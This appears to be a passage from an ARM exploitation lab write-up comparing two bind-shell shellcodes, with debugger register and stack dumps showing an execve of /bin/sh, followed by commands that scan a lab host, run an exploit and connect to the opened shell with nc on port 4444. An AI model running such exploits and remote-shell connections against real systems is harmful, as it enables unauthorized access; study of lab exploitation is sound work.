     0xbefffe10│+0x00: 0x00000001     ← $sp
    0xbefffe14│+0x04: 0xbefffef5  →  "./bind-azeria.x"
    0xbefffe18│+0x08: 0x00000000
    0xbefffe1c│+0x0c: 0xbeffff05  →  "SSH_CLIENT=192.168.18.1 37136 22"
    0xbefffe20│+0x10: 0xbeffff26  →  "USER=root"
    0xbefffe24│+0x14: 0xbeffff30  →  "SHLVL=1"
    0xbefffe28│+0x18: 0xbeffff38  →  "HOME=/root"
    0xbefffe2c│+0x1c: 0xbeffff43  →  "SSH_TTY=/dev/pts/0" 


Sindoni's shellcode debug:

    $r0   : 0x00010100  →  "/bin/sh"
    $r1   : 0xbefffdf0  →  0x00010100  →  "/bin/sh"
    $r2   : 0x00000000
    $r3   : 0x00000000
    $r4   : 0x00000000
    $r5   : 0x00000011
    $r6   : 0x00000003
    $r7   : 0x0000000b
    $r8   : 0x00000000
    $r9   : 0x00000000
    $r10  : 0x00000000
    $r11  : 0x00000000
    $r12  : 0x00000000
    $sp   : 0xbefffdf0  →  0x00010100  →  "/bin/sh"
    $lr   : 0x00000000
    $pc   : 0x000100f0  →  <loop+44> svc 0x00000000
    $cpsr : [thumb fast interrupt overflow CARRY ZERO negative]
    ──[ stack ]────
    0xbefffdf0│+0x00: 0x00010100  →  "/bin/sh"   ← $r1, $sp
    0xbefffdf4│+0x04: 0x00000000
    0xbefffdf8│+0x08: 0x5c110002
    0xbefffdfc│+0x0c: 0x00000000
    0xbefffe00│+0x10: 0x00000001
    0xbefffe04│+0x14: 0xbefffef3  →  "./bind-sindoni.x"
    0xbefffe08│+0x18: 0x00000000
    0xbefffe0c│+0x1c: 0xbeffff04  →  "SSH_CLIENT=192.168.18.1 37136 22"




    nmap -p 4444,80 dvar
    ./e.pt
    nmap -p 4444,80 dvar
    nc dvar 4444